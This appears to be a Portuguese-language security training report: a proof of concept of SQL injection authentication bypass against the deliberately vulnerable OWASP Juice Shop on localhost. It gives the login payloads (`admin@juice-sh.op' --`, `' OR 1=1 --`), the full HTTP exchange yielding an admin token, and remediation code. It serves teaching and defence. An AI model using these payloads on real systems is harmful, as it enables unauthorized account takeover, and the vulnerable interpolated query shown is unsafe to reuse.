

# Relatório Técnico de PoC — Bloco 3: Exploração Web & Bypass de Autenticação (SQL Injection)

**Trainee:** Larissa Silva Passos 
**Alvo:** OWASP Juice Shop (`http://localhost:3000`) 
**Endpoint Afetado:** `POST /rest/user/login` 
**Classificação:** CWE-89 (*Improper Neutralization of Special Elements used in an SQL Command*) / OWASP Top 10 A03:2021 (*Injection*) 
**Severidade:** Crítica (Quebra de controle de acesso e escalação de privilégios para administrador)

> **Nota de Contextualização:** Durante o mapeamento de superfície de ataque realizado no Bloco 2, este vetor de autenticação foi identificado previamente. Neste relatório referente ao Bloco 3, apresenta-se o aprofundamento teórico completo da vulnerabilidade, a rastreabilidade detalhada da Prova de Conceito (PoC) e as recomendações de correção em nível de código.

---

## 1. Descrição da Falha (Análise Teórica)

A vulnerabilidade de **SQL Injection (SQLi)** ocorre quando entradas não confiáveis fornecidas pelo usuário são interpoladas diretamente na construção de uma instrução SQL, sem parametrização ou higienização adequada. Esse comportamento rompe a separação fundamental entre o **plano de dados** (valores literais submetidos no formulário) e o **plano de controle** (a sintaxe lógica interpretada pelo Sistema Gerenciador de Banco de Dados).

### Arquitetura do Alvo (Node.js, Sequelize e SQLite)
O backend do OWASP Juice Shop é desenvolvido em **Node.js (Express)** utilizando o ORM **Sequelize** conectado a um banco de dados relacional **SQLite**. Embora ORMs modernos previnam injeções quando seus métodos nativos de abstração são utilizados, a falha surge quando a rota de autenticação executa uma  **Raw Query** (consulta SQL bruta) interpolando diretamente o parâmetro `email` extraído do corpo JSON da requisição:

```sql
SELECT * FROM Users WHERE email = '<ENTRADA_EMAIL>' AND password = '<HASH_SENHA>' AND deletedAt IS NULL;
```

### Comportamento Sintático no Motor SQLite
Ao submeter caracteres de controle da linguagem SQL no campo `email`, o *parser* do SQLite processa a instrução da seguinte maneira:

1. **Encerramento Prematuro da String (`'`):** No SQLite, literais de texto são delimitados por aspas simples. A inserção de `'` imediatamente após o e-mail fecha o campo esperado pela comparação `email = '...'`.
2. **Comentário de Fim de Linha (`--`):** SQLite reconhece apenas `--` para comentários de linha ou `/* ... */` para blocos. A sequência `--` faz com que o interpretador descarte toda a porção restante da consulta (`AND password = '...' AND deletedAt IS NULL;`).
3. **Neutralização da Verificação de Credencial:** No SQLite, o operador lógico `AND` possui precedência sobre o `OR`. Ao comentar o restante da cláusula `WHERE` logo após o identificador do usuário, elimina-se a verificação do *hash* da senha, fazendo com que o banco retorne diretamente o registro associado ao e-mail informado. *(Nota: O mesmo endpoint também é suscetível a bypass genérico por tautologia booleana, como `' OR 1=1 --`, que faz a condição avaliar como verdadeira e retorna o primeiro registro ativo da tabela `Users`).*

---

## 2. Passo a Passo da Exploração (PoC)

### Etapa 1: Reconhecimento e Identificação do Alvo
A partir da enumeração passiva realizada na aplicação, identificou-se que a conta administrativa utiliza o e-mail `admin@juice-sh.op` e que o fluxo de login envia credenciais via requisição assíncrona em formato JSON para o endpoint `POST /rest/user/login`.

### Etapa 2: Interceptação e Injeção do Payload
Com o tráfego interceptado através do proxy **Burp Suite** (`HTTP History #254`), inseriu-se o payload de *Authentication Bypass* no campo `email`, mantendo uma senha arbitrária (`1234`) no campo `password`:

* **Payload Utilizado:** `admin@juice-sh.op' --`

**Requisição HTTP Submetida:**
```http
POST /rest/user/login HTTP/1.1
Host: localhost:3000
Content-Type: application/json
Content-Length: 51

{
  "email": "admin@juice-sh.op' --",
  "password": "1234"
}
```

Internamente, a instrução SQL executada pelo banco de dados tornou-se:
```sql
SELECT * FROM Users WHERE email = 'admin@juice-sh.op' --' AND password = '<HASH_DE_1234>' AND deletedAt IS NULL;
```

### Etapa 3: Validação do Acesso Administrativo
O banco SQLite processou apenas `SELECT * FROM Users WHERE email = 'admin@juice-sh.op'`, retornando o registro do administrador sem validar a senha. O servidor respondeu com status `HTTP/1.1 200 OK` e emitiu um **JSON Web Token (JWT)** válido correspondente à sessão administrativa:

**Resposta HTTP Recebida:**
```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 784

{
  "authentication": {
    "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9...",
    "bid": 1,
    "umail": "admin@juice-sh.op"
  }
}
```

Nas requisições subsequentes (`HTTP History #255` a `#257`), a aplicação utilizou o token gerado para autenticar as chamadas `GET /rest/user/whoami` e `GET /rest/basket/1`, confirmando o acesso completo ao perfil de Administrador e a conclusão do desafio *Login Admin*.

### Evidência Visual


*(Legenda: À esquerda, histórico do Burp Suite destacando a requisição `#254 POST /rest/user/login` com o payload `admin@juice-sh.op' --` e a resposta `200 OK` contendo o token JWT. À direita, interface do OWASP Juice Shop confirmando a autenticação na conta administrativa.)*

---

## 3. Remediação Recomendada

### 3.1. Implementação de Prepared Statements (Parameterized Queries)
A correção definitiva para SQL Injection consiste em utilizar **Prepared Statements (Consultas Parametrizadas)**. Nesse modelo, o SGBD pré-compila a estrutura da consulta SQL e monta sua Árvore Sintática Abstrata (AST) antes de receber os valores enviados pelo cliente. Os parâmetros vinculados (**bind parameters**) são tratados estritamente como literais de dados, impedindo que aspas ou operadores alterem a lógica do comando.

**Código Vulnerável (Interpolação direta de strings):**
```javascript
// INSEGURO: A entrada do usuário altera diretamente a sintaxe da consulta SQL
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`,
  { model: models.User, plain: true }
)
```

**Código Corrigido — Abordagem Raw Query com Bind Parameters no Sequelize:**
```javascript
// SEGURO: Os placeholders (:email e :password) isolam os dados da estrutura SQL
models.sequelize.query(
  'SELECT * FROM Users WHERE email = :email AND password = :password AND deletedAt IS NULL',
  {
    replacements: {
      email: req.body.email,
      password: security.hash(req.body.password)
    },
    model: models.User,
    plain: true
  }
)
```

### 3.2. Controles Complementares (Defense in Depth)
* **Validação Estrita de Entrada (Allowlist):** Validar o payload JSON na camada de controle (utilizando bibliotecas de esquema como `Joi` ou `Zod`) para rejeitar qualquer requisição cujo campo `email` não obedeça rigorosamente ao formato padrão de endereços de e-mail antes de acionar o banco de dados.
* **Tratamento Genérico de Erros:** Configurar o tratamento de exceções da API para não expor mensagens nativas do banco (`SQLITE_ERROR`) nas respostas HTTP em produção, evitando vazamento de informações estruturais.
* **Princípio do Menor Privilégio:** Configurar o usuário de conexão da aplicação no banco de dados apenas com as permissões estritamente necessárias às operações de rotina.
